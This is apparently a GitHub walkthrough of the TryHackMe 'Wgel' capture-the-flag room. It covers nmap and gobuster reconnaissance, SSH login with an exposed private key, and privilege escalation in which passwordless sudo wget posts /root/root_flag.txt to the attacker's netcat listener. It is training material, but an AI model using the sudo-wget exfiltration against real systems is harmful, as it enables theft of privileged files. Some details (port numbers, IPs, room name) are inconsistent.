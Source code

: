 # Wgel THM CTF Walkthrough

Solving Wgel TryHackMe Capture The Flag [DAV TryHackMe Room](https://tryhackme.com/r/room/wgelctf)

## First Step: Reconnaissance

```sh
nmap -sV -sC -Pn -A 10.10.210.35
```
![Nmap Result](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/acf9d4a0-90c3-4331-876c-259d01151cab)

Here we see only port 20 (ssh) and 80 (http) are open.
Next step is to visit the webpage where we see the default Apache page, nothing really interesting yet. <br>
![Apache Default Web Page](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/db711117-55cf-40cf-bade-c899b639921b)

Although, We did get the username jessie in the source code of the page.
![Apache Source Code](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/68d8c025-4d7e-4e36-9e4a-5b0abcedb67f) <br>

## Directory Brute-Forcing

Using `Gobuster alternative`:
```sh
gobuster -u http://10.10.14.80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir
```

We found `/sitemap`, which is interesting So, did another gobuster search which gave ./ssh <br>
![sitemap ssh](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/07dffda9-c618-4ab7-8b7e-1f1fce228cb9) <br>
![sitemap ssh key](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/86b63692-2236-4b76-bd2b-9290c8c3bc18) <br>

Copy this Key. <br>
![id_rsa](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/dea30ebd-b497-4ca8-ad9b-412a8cebfd79) <br>

Give it executable permission and run ssh. <br>


```sh
chmod 600 id_rsa1
ssh jessie@10.10.214.80 -i id_rsa1
```

![ssh login](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/fb56a32c-1215-4b49-8543-3e35abd86252) <br>


We easily got user flag
```sh
find / -type f -name user_flag.txt 2>>/dev/null
cat /home/jessie/Documents/user_flag.txt
```
![user_flag](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/dc7fb1ee-0068-467b-8a72-5541a0e43eae) <br>

Let's try to escalate priviledges.
```sh
sudo -l
```

We can run sudo wget without password.
![sudo l](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/c3c31fca-e3b4-4964-a034-c3ed7fbdbd9b) <br>

```sh
nc -nlvp 4445
```

Let's Open netcat listener (The screenshot is older one with port 1234. Don't confuse it, You can use any port but remeber to keep the same port on both sides.) <br>
![nc listener](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/5f30ea5d-d5b1-4d72-b84c-2f59b1d10e9f) <br>

```sh
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.17.88.138:1234
```
![wget post](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/2fdf9d6f-a46f-4e46-a112-082a5adc3095) <br>

Check the Netcat listener. We have recieved the root flag.
![root flag](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/82cdc243-127f-44bd-b7e1-ed4274f9e993) <br>


## Congrats!
## We have solved DAV THM CTF!
## Follow My GitHub for more.

